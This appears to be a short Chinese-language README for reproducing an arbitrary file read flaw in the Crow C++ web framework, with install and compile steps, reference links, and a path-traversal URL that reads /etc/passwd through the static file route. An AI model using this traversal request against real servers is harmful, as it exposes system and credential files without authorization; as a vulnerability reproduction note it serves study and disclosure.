

dpkg -i 进行安装
安装失败请安装依赖
apt install libboost-all-dev
apt --fix-broken install


### 编译参数
```shell
g++ -o main main.cpp -lpthread
```


### 任意文件读取漏洞
默认static为静态文件服务路径
```shell
http://172.16.70.11:18080/static/../../../../../../../../../etc/passwd
```


### 参考链接
https://cn-sec.com/archives/913502.html
https://security.snyk.io/vuln/SNYK-UNMANAGED-CROW-2336163
https://crowcpp.org/master/guides/static/
https://gitee.com/ASCIPHX/crow
https://www.lightsmile.cn/blog/articles/使用crow构建web服务/
https://blog.csdn.net/qq_21567767/article/details/105911906